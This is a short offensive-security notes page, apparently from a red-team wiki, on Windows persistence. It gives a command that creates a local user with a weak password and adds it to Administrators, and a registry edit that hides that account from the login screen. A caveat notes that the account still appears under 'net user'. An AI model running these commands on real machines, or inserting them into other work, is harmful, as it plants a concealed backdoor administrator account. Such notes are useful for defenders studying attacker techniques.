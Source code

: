 # Create & Hide New User

Creating User and Adding to Local Administrators

```
net user spotless spotless /add & net localgroup Administrators spotless /add
```

Hide Newly Created Local administrator

{% hint style="danger" %}
This will only hide the username from winlogon screen (windows login GUI screen),  but the user can be detected with `net user` command
{% endhint %}

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v spotless /d 0 /f
```
